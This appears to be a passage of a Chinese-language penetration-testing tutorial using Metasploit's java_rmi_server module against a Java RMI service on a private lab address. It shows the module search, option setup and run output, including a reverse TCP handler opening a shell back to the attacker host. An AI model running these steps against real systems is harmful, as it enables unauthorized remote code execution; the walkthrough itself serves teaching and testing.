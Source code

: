 2 找到并ｕｓｅ相应模块
```
msf > search java_rmi

Matching Modules
================

   Name                                            Disclosure Date  Rank       Description
   ----                                            ---------------  ----       -----------
   auxiliary/gather/java_rmi_registry                               normal     Java RMI Registry Interfaces Enumeration
   auxiliary/scanner/misc/java_rmi_server          2011-10-15       normal     Java RMI Server Insecure Endpoint Code Execution Scanner
   exploit/multi/browser/java_rmi_connection_impl  2010-03-31       excellent  Java RMIConnectionImpl Deserialization Privilege Escalation
   exploit/multi/misc/java_rmi_server              2011-10-15       excellent  Java RMI Server Insecure Default Configuration Java Code Execution


msf > use exploit/multi/misc/java_rmi_server
msf exploit(multi/misc/java_rmi_server) > 

```

3 查看配置选项,并设置目标机地址
```
msf exploit(multi/misc/java_rmi_server) > show options

Module options (exploit/multi/misc/java_rmi_server):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               yes       Time that the HTTP Server will wait for the payload request
   RHOST                       yes       The target address
   RPORT      1099             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf exploit(multi/misc/java_rmi_server) > set RHOST 172.16.1.96
RHOST => 172.16.1.96
```
4 开始攻击,执行run命令，辅助模块等执行使用run,只有攻击模块的exploit是run的alias。
```
msf exploit(multi/misc/java_rmi_server) > run

[*] Started reverse TCP handler on 172.16.1.253:4444 
[*] 172.16.1.96:1099 - Using URL: http://0.0.0.0:8080/QgvmkWvuvTB
[*] 172.16.1.96:1099 - Local IP: http://172.16.1.253:8080/QgvmkWvuvTB
[*] 172.16.1.96:1099 - Server started.
[*] 172.16.1.96:1099 - Sending RMI Header...
[*] 172.16.1.96:1099 - Sending RMI Call...
```